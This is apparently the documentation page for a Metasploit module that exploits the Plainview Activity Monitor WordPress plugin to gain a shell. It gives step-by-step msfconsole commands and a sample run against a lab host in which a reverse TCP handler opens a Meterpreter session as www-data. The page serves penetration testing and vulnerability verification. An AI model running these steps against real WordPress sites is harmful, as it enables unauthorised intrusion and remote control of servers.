 ## Description

  This module uses administrative functionality available in WordPress
  when the Plainview Activity Monitor plugin is installed to
  gain a shell with web server user permissions.

## Vulnerable Software

  This module has been tested successfully on WordPress 4.6
  with Plainview Activity Monitor version 20161228 installed.

  Software:

  * https://wordpress.org/plugins/plainview-activity-monitor/
  * https://wordpress.org/download/releases/

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/wp_plainview_activity_monitor_rce`
  3. Do: `set rhosts <IP or domain_name>`
  4. Do: `set username <username>`
  5. Do: `set password <password>`
  6. Do: `set vhost <domain_name>`
  7. Do: `run`
  8. You should get a new session

## Options

  **TARGETURI**

  The base path to WordPress (default: `/`)

  **USERNAME**

  The username for WordPress

  **PASSWORD**

  The password for WordPress


## Scenarios

 ```
  msf5 > use exploit/unix/webapp/wp_plainview_activity_monitor_rce 
  msf5 exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set rhosts wordpress.test.local
  rhosts => wordpress.test.local
  msf5 exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set username admin
  username => admin
  msf5 exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set password 123456
  password => 123456
  msf5 exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set vhost wordpress.test.local
  vhost => wordpress.test.local
  msf5 exploit(unix/webapp/wp_plainview_activity_monitor_rce) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   WordPress


  msf5 exploit(unix/webapp/wp_plainview_activity_monitor_rce) > exploit

  [*] Started reverse TCP handler on 10.0.0.2:4444 
  [*] Trying to login...
  [+] Login Successful
  [*] Sending stage (38288 bytes) to 10.0.0.3
  [*] Meterpreter session 1 opened (10.0.0.2:4444 -> 10.0.0.3:51990) at 2019-11-10 08:24:11 +0100

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > 
 ```
